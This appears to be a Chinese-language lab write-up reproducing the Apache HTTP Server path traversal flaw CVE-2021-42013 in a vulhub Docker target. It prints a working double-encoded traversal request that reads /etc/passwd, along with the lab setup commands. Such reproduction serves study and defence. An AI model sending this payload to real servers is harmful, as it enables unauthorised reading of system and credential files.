


# Apache路径穿越漏洞（CVE-2021-42013）

## 漏洞原理

Apache HTTP Server 2.4.50 中对 CVE-2021-41773 的修复不够充分。攻击者可以使用路径遍历攻击将 URL 映射到由类似别名的指令配置的目录之外的文件。如果这些目录之外的文件不受通常的默认配置 “要求全部拒绝” 的保护，则这些请求可能会成功。如果还为这些别名路径启用了 CGI 脚本，则可以允许远程代码执行

## 影响版本

- Apache HTTP Server 2.4.49
- Apache HTTP Server 2.4.50

## 复现机器版本

攻击机：Ubuntu18.04

靶机：Ubuntu18.04 Docker version 20.10.10

## 漏洞复现

### 准备阶段 

#### 进入靶场，启动服务

```
cd /home/radiuscircle/vulhub/httpd/CVE-2021-42013
docker-compose build
docker-compose up -d
```


#### 信息收集

查看端口

```
docker ps
```


### 漏洞利用

访问IP：`http://192.168.177.131:8080/`


burp抓包



构造payload

```
GET /icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd
```



得到passwd文件内容

### 关闭容器

```
docker-compose down
```

